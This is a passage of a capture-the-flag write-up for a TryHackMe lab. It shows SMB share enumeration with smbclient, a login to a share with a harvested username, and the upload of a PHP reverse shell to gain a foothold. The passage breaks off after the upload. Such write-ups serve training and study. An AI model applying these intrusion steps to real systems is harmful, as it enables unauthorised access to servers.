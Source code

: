 ## SMB

Let's list share in the SMB server.

```terminal
$ sudo smbclient -L //10.10.182.56/Dev -N                                                                                                                
                                                                               
        Sharename       Type      Comment                                      
        ---------       ----      -------                                                                                                                     
        print$          Disk      Printer Drivers                              
        SECURED         Disk      Dev                                                                                                                         
        IPC$            IPC       IPC Service (incognito server (Samba, Ubuntu))                                                                              
SMB1 disabled -- no workgroup available                                        
                                            
```

Found a share called `Secured`.

Trying to connect to the share as anonymous fails, but one of the credentials we got allows us to connect.

```terminal
$ sudo smbclient //10.10.182.56/SECURED -U ArthurMorgan
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 22 00:04:28 2021
  ..                                  D        0  Thu Mar 11 13:52:29 2021
  note.txt                            A       45  Thu Mar 11 13:19:52 2021

                7743660 blocks of size 1024. 4493072 blocks available
smb: \> get note.txt
getting file \note.txt of size 45 as note.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit
                                                                                                                                                              
┌─[sirius@ParrotOS]─[~/CTF/THM/coldwars]
└──╼ $ cat note.txt 
Secure File Upload and Testing Functionality
```

We found the same note in the /dev directory.

# **Foothold**

Let's upload a php reverse shell.

```terminal
$ sudo smbclient //10.10.182.56/SECURED -U ArthurMorgan                                                                                              1 ⨯
[sudo] password for sirius: 
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 22 00:04:28 2021
  ..                                  D        0  Thu Mar 11 13:52:29 2021
  note.txt                            A       45  Thu Mar 11 13:19:52 2021

                7743660 blocks of size 1024. 4479268 blocks available
smb: \> put shell.php
putting file shell.php as \shell.php (10.2 kb/s) (average 10.2 kb/s)
smb: \> ls
  .                                   D        0  Sun Mar 26 14:30:14 2023
```